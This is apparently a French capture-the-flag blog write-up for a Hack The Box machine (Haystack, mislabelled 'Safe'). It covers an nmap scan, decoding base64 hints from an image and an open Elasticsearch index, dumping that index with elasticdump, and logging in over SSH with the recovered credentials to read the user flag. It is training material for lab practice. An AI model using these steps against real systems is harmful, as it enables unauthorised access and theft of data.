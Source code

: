```yaml
---
layout: post
title: HTB - Safe
subtitle: Hack The Box - Linux Machine - Easy 
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [HTB, Linux, Elasticsearch]
comments: false
---
```



1- User.txt

~~~
root@Host-001:~# nmap -A 10.10.10.115
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-15 20:51 CEST
Nmap scan report for 10.10.10.115
Host is up (0.018s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2a:8d:e2:92:8b:14:b6:3f:e4:2f:3a:47:43:23:8b:2b (RSA)
|   256 e7:5a:3a:97:8e:8e:72:87:69:a3:0d:d1:00:bc:1f:09 (ECDSA)
|_  256 01:d2:59:b2:66:0a:97:49:20:5f:1c:84:eb:81:ed:95 (ED25519)
80/tcp   open  http    nginx 1.12.2
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (text/html).
9200/tcp open  http    nginx 1.12.2
| http-methods: 
|_  Potentially risky methods: DELETE
|_http-server-header: nginx/1.12.2
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   17.07 ms 10.10.14.1
2   18.55 ms 10.10.10.115

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.10 seconds
~~~

Les ports 22 80 et 9200 sont ouverts

Sur le port 80 on trouve une image. Téléchargeons l'image et regardons si il y a des chaines de charactères:

~~~
root@Host-001:~/Bureau# strings needle.jpg
(...)
bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==
~~~

Décodons: https://www.base64decode.org/<

Résultat: la aguja en el pajar es "clave"

Ce qui signifie: the needle in the haystack is "key"

Regardons ce qu'il y a sur le port 9200 http://10.10.10.115:9200/

On tombe sur un DB. Le cluster_name est elasticsearch

On google et on comprend que le site utilise Elasticsearch (même logo): [https://en.wikipedia.org/wiki/Elasticsearch](https://en.wikipedia.org/wiki/Elasticsearch)

Tentons de chercher 'needle' en vue du base64 décodé:

http://10.10.10.115:9200/_search?q=%27needle%27

On trouve:
~~~
(...)
_index	"quotes"
_type	"quote"
_id	"2"
_score	5.427053
_source	
quote	"There's a needle in this haystack, you have to search for it"
~~~

Dumpons la DB avec elasticdump: [https://github.com/taskrabbit/elasticsearch-dump](https://github.com/taskrabbit/elasticsearch-dump)

~~~
root@Host-001:~/Bureau/elasticsearch-dump/bin# ./elasticdump --input=http://10.10.10.115:9200/quotes/ --output=dump
~~~

En analysant minutieusement le dump on trouve 2 ligne avec du base 64:

~~~
{"_index":"quotes","_type":"quote","_id":"111","_score":1,"_source":{"quote":"Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk="}}
~~~

Décodé: pass: spanish.is.key

~~~
{"_index":"quotes","_type":"quote","_id":"45","_score":1,"_source":{"quote":"Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg "}}
~~~

Décodé: user: security 

~~~
root@Host-001:~# ssh security@10.10.10.115
The authenticity of host '10.10.10.115 (10.10.10.115)' can't be established.
ECDSA key fingerprint is SHA256:ihn2fPA4jrn1hytN0y9Z3vKpIKuL4YYe3yuESD76JeA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.115' (ECDSA) to the list of known hosts.
security@10.10.10.115's password: 
Last failed login: Tue Oct 15 19:27:55 -03 2019 from 10.10.14.18 on ssh:notty
There was 1 failed login attempt since the last successful login.
Last login: Wed Feb  6 20:53:59 2019 from 192.168.2.154
[security@haystack ~]$ ls
user.txt
[security@haystack ~]$ cat user.txt
04d18bc79dac1d4d48ee0a940c8eb929
[security@haystack ~]$ 
~~~

**Poursuivez avec :** 

[- Oneliner Shells](https://0xss0rz.github.io/2020-05-10-Oneliner-shells/)

[- HTB - Write Up Machine](https://0xss0rz.github.io/2020-08-04-HTB-Write-Up/)

[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).
